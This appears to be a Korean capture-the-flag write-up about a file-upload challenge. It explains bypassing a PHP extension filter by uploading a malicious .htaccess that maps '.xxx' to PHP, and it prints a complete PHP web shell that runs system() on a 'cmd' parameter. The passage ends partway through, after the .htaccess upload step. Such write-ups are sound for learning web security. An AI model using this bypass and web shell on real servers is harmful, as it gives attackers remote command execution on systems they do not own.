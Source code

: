 upload 관련 코드인데 보면 php, php3, php4, php5, pht, phtml의 확장자들을 필터링하고 있다. 이 확장자가 아닌 경우 /upload 폴더에 업로드한 파일을 올리는 것을 확인할 수 있다. 이때 파일은 직접 선택해서 올리는 것이기 때문에 파일명에는 /이 들어갈 수 없어 pathTraversal이 되지 않는다.

정리하면 이 문제는 웹 서버에 파일 업로드를 할 수 있도록 구현되어 있다. 파일을 업로드하는데 웹쉘을 올리지 못하도록 확장자만을 필터링 하고 있다. 하지만 conf 파일에서 확인해 본 결과 디렉토리 내의 설정을 적용하는 아파치 웹서버의 로컬 설정파일인 .htaccess을 오버라이딩 할 수 있도록 되어있는 것을 확인할 수 있다.(기본 설정은 None으로 막혀있다.) 따라서 악의적인 .htaccess 파일을 업로드시켜 로컬 설정을 바꾸어 확장자 필터링을 우회할 것이다.

1. 악의적인 .htaccess 파일을 업로드하여 .xxx 확장자를 .php로 인식시킨다.
2. php 코드로 작성된 webshell[.xxx](http://웹쉘.xxx) 파일을 업로드한다. 이 웹쉘은 확장자가 xxx이므로 upload.php의 확장자 필터링을 우회하여 업로드가 가능하다.
3. 악의적인 로컬 설정파일인 .htaccess파일로 인해 [webshell.xxx](http://webshell.xxx) 파일은 webshell.php파일로 웹서버에서 인식된다.
4. 따라서 /upload/webshell.xxx 파일에 접근하여 웹쉘을 이용해 flag 파일을 찾는다.

# 공격

다음과 같은 내용으로 .htaccess 파일을 만든다. 아래 내용은 .xxx 확장자파일을 php 코드로 웹서버가 인식하도록 한다.

```html
AddType application/x-httpd-php .xxx
```

![악의적인 htaccess파일.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/cf87f056-ca79-4d77-ad50-41be2c353346/%EC%95%85%EC%9D%98%EC%A0%81%EC%9D%B8_htaccess%ED%8C%8C%EC%9D%BC.png)

그리고 웹쉘 파일을 만든다. 웹쉘은 [https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) 에서 코드를 가져와서 사용했다. 웹쉘의 이름은 webshell.xxx로 만들어준다.

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

![웹쉘.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/106a9437-5e08-471b-9ec4-52e95c2c9ea0/%EC%9B%B9%EC%89%98.png)

이제 index 페이지에서 악의적인 로컬 설정파일인 .htaccess를 업로드하자.

![htaccess 업로드.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b9442472-74fb-46c2-b87b-a65605239a4c/htaccess_%EC%97%85%EB%A1%9C%EB%93%9C.png)

![htaccess 업로드1.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/897816bf-16a4-4036-ba11-a5a4fd975603/htaccess_%EC%97%85%EB%A1%9C%EB%93%9C1.png)

